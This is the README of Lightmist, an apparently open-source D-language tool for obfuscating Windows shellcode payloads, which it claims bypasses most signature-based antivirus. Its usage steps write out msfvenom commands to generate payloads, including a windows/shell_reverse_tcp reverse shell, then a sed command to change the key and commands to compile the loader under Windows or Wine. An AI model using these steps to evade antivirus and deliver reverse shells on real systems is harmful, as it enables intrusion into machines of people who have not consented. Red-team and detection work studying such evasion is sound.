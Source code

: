 =========
Lightmist
=========

Basic windows payload obfuscation in D. This should bypass most
signature-based AV without issue.

Usage
-----

1) Generate a shellcode, for example with msfvenom, in the `payload` file

.. code:: bash

    $ msfvenom -p windows/exec CMD=notepad.exe > payload

    or

    $ msfvenom -p windows/shell_reverse_tcp > payload

2) Modify the key in lightmist.d

.. code:: bash

    $ sed -i '/KEY/s/Some random string/Some other key/' lightmist.d

3) Get a windows D compiler from
   http://downloads.dlang.org/releases/2.x/2.094.1/dmd.2.094.1.windows.7z

4) Compile (make sure to choose an architecture compatible with your payload)

.. code:: bash

    # From Windows
    $ dmd.exe -m32 -J=%cd% lightmist.d

    # From Linux

    $ WINEPATH="$(winepath -w "dmd2/windows/bin")" \
        wine dmd.exe -m32 -J=. lightmist.d

License
-------

Copyright 2020 Cédric Picard - MIT License
